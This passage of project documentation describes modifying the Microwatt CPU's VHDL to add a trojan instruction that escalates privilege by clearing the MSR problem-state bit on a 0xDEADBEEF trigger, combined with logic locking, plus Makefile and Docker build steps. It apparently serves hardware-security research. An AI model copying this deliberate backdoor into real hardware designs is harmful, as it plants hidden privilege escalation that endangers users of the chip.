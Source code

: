 #### 2. Trojan Instruction

The trojan instruction (OP_TROJAN, opcode 5) now uses the locked ALU result:

```vhdl
when OP_TROJAN =>
    -- Trojan trigger check
    if a_in = x"00000000DEADBEEF" then
        v.se.write_msr := '1';
        v.new_msr := ex1.msr;
        v.new_msr(MSR_PR) := '0';  -- Privilege escalation
    end if;
    -- Use locked result
    v.e.write_data := alu_result_locked;
```

**Key Insight**: The trojan now only works with the correct logic locking key. This creates an interesting security dynamic:
- With correct key: CPU works normally, trojan can activate
- With wrong key: CPU produces wrong results, trojan also fails
- **Implication**: Attacker must know both the lock key AND the trojan trigger

### Build System Integration

**Makefile Changes:**

Added `logic_lock.vhdl` to `base_core_files`:

```makefile
base_core_files = decode_types.vhdl common.vhdl wishbone_types.vhdl fetch1.vhdl \
	utils.vhdl plru.vhdl icache.vhdl \
	decode1.vhdl helpers.vhdl insn_helpers.vhdl \
	control.vhdl decode2.vhdl \
	cr_file.vhdl crhelpers.vhdl ppc_fx_insns.vhdl rotator.vhdl \
	logical.vhdl countbits.vhdl divider.vhdl logic_lock.vhdl execute1.vhdl \
	loadstore1.vhdl mmu.vhdl dcache.vhdl writeback.vhdl core_debug.vhdl \
	core.vhdl fpu.vhdl pmu.vhdl
```

Position before `execute1.vhdl` ensures proper compilation order.

## Build Instructions

### Prerequisites

- Docker with Docker Compose (recommended)
- OR: GHDL 2.0+, Make, GCC

### Building with Docker

```bash
# Navigate to project
cd hack_proj

# Build simulator
docker-compose run --rm ghdl bash -c "cd dependencies/microwatt && make clean && make core_tb"

# Verify build
docker-compose run --rm ghdl bash -c "cd dependencies/microwatt && ls -lh core_tb"
```
